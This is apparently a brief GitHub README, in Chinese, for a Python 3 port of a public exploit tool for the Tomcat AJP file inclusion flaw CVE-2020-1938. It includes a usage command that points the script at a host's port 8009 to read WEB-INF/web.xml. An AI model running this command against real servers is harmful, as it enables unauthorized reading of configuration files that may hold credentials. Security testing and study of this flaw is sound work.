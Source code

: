 # CVE-2020-1938文件包含漏洞

## Reference

https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi


## Feat
1. 支持Python3
2. 支持保存文件到本地

## Usage
```bash
python .\CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.187.128 -p 8009 -f "WEB-INF/web.xml"
```
![alt text](img/image.png)
